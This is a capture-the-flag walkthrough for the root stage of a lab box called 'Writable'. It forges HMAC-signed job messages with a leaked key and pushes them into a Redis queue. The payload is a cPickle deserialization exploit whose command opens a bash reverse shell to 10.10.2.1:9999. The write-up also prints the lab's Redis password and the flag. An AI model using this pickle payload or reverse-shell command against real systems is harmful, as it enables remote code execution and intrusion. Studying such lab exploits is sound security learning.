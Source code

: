 # Writable (root)

Continuing on from our shell session, we need to have a quick look at
`/opt/pyexec.py`, which is mentioned on the glances panel.

Source can be read <a href=""https://github.com/CovHackSoc/CTFChallenges/blob/master/boxes/writable/pyexec/pyexec.py>here</a>

This mentions a file called `./etc/jobs.json`, which contains:
```
{
    "host":"127.0.0.1",
    "port":6379,
    "key":"d32afd00b2c4bc74ac2e2548f97bc89c6df6fd3785f7125a67a933bdf6904d01",
    "password":"redis_is_really_secure",
    "queue":"jobs"
}
```

(Minor note, as the script is running from `/`, the `.` in the path can be
ignored)

So, we now need to use this to forge a signed message which can be done like so:

```
import base64
import hmac
key = "d32afd00b2c4bc74ac2e2548f97bc89c6df6fd3785f7125a67a933bdf6904d01"
payload = "BLAH"
data = base64.b64encode(payload)
mac = hmac.new(key.decode('hex'), data).hexdigest()

message = ",".join([data,mac])
```

Talking to redis can be done with:
```
import redis
connection = redis.Redis(
    host='10.10.2.6',
    port=6379,
    password='redis_is_really_secure'
)

connection.rpush('jobs', message)
```

Now, what do we set the payload to? Looking though the `evaluate_job()` function
we see references to pysandbox and cPickle. cPickle is known to be easier to
exploit, so we'll go with that. (Exploiting pysandbox is probably possible, but
I haven't attempted it)

Exploiting cPickle requires us to construct a class with a `__reduce__` method,
serialize it and then send it over.

This can be done like so:
```
import cPickle
import subprocess

class RunBinSh(object):
  def __reduce__(self):
    return (subprocess.Popen, (('/bin/bash','-c','bash -i >& /dev/tcp/10.10.2.1/9999 0>&1'),))

payload = cPickle.dumps(RunBinSh())
```

Running this will give us reverse shell that connects back to `10.10.2.1:9999`.

A full exploit can be found here [1].

Reading `/root/root.txt` gives us:
```
CTF{pysandbox_is_still_broken}
```

# References
* [1] https://github.com/CovHackSoc/CTFChallenges/blob/master/boxes/writable/solutions/client.py
